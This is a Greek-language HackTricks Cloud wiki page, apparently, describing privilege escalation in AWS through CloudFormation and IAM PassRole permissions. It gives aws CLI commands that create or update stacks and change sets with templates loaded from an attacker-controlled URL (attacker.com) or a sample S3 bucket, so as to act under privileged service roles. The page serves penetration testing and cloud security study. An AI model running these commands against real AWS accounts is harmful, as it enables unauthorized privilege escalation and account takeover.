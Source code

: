 # AWS - Εscalation προνομίων Cloudformation

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ καταθέτοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## cloudformation

Για περισσότερες πληροφορίες σχετικά με το cloudformation ελέγξτε:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Ένας επιτιθέμενος με αυτές τις άδειες **μπορεί να εξελίξει προνόμια** δημιουργώντας ένα **CloudFormation stack** με ένα προσαρμοσμένο πρότυπο, φιλοξενούμενο στον δικό του διακομιστή, για να **εκτελέσει ενέργειες υπό τις άδειες ενός συγκεκριμένου ρόλου:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Στην παρακάτω σελίδα έχετε ένα παράδειγμα **εκμετάλλευσης** με την επιπλέον άδεια **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Πιθανή Επίπτωση:** Ανύψωση προνομίων στον καθορισμένο ρόλο υπηρεσίας cloudformation.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Σε αυτήν την περίπτωση μπορείτε να **καταχραστείτε ένα υπάρχον cloudformation stack** για να το ενημερώσετε και να αναβαθμίσετε τα προνόμια όπως στο προηγούμενο σενάριο:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για **να δώσετε στον εαυτό σας την άδεια `UpdateStack`** πάνω σε ένα stack και να πραγματοποιήσετε την επίθεση.

**Πιθανή Επίπτωση:** Ανύψωση προνομίων στον ρόλο υπηρεσίας cloudformation που έχει καθοριστεί.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Αν έχετε αυτήν την άδεια αλλά **όχι `iam:PassRole`** μπορείτε ακόμα **να ενημερώσετε τα stacks** που χρησιμοποιούνται και να καταχραστείτε τους **IAM Roles που έχουν ήδη συνδεθεί**. Ελέγξτε την προηγούμενη ενότητα για παράδειγμα εκμετάλλευσης (απλώς μην υποδεικνύετε κάποιον ρόλο στην ενημέρωση).

Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για **να δώσετε στον εαυτό σας την άδεια `UpdateStack`** πάνω σε ένα stack και να πραγματοποιήσετε την επίθεση.

**Πιθανή Επίπτωση:** Ανύψωση προνομίων στον ρόλο υπηρεσίας cloudformation που έχει ήδη συνδεθεί.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ένας επιτιθέμενος με άδειες να **περάσει ένα ρόλο και να δημιουργήσει & εκτελέσει ένα ChangeSet** μπορεί **να δημιουργήσει/ενημερώσει ένα νέο stack cloudformation και να καταχραστεί τους ρόλους υπηρεσίας cloudformation** όπως και με το CreateStack ή UpdateStack.

Η παρακάτω εκμετάλλευση είναι μια **παραλλαγή της** [**CreateStack**](./#iam-passrole-cloudformation-createstack) χρησιμοποιώντας τις **άδειες ChangeSet** για τη δημιουργία ενός stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για **να δώσετε στον εαυτό σας δικαιώματα `ChangeSet`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανή Επίπτωση:** Ανύψωση προνομιακών δικαιωμάτων σε ρόλους υπηρεσίας cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Αυτό είναι παρόμοιο με την προηγούμενη μέθοδο χωρίς την παράδοση **ρόλων IAM**, οπότε μπορείτε απλά **να καταχραστείτε ήδη επισυναπτόμενους**, απλά τροποποιήστε την παράμετρο:
```
--change-set-type UPDATE
```
**Πιθανή Επίδραση:** Ανόδου δικαιωμάτων στον ρόλο υπηρεσίας cloudformation που έχει ήδη συνδεθεί.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτές τις άδειες για να δημιουργήσει/ενημερώσει StackSets για να εκμεταλλευτεί αυθαίρετους ρόλους cloudformation.

**Πιθανή Επίδραση:** Ανόδου δικαιωμάτων σε ρόλους υπηρεσίας cloudformation.

### `cloudformation:UpdateStackSet`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτήν την άδεια χωρίς την άδεια passRole για να ενημερώσει StackSets για να εκμεταλλευτεί τους συνδεδεμένους ρόλους cloudformation.

**Πιθανή Επίδραση:** Ανόδου δικαιωμάτων στους συνδεδεμένους ρόλους cloudformation.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
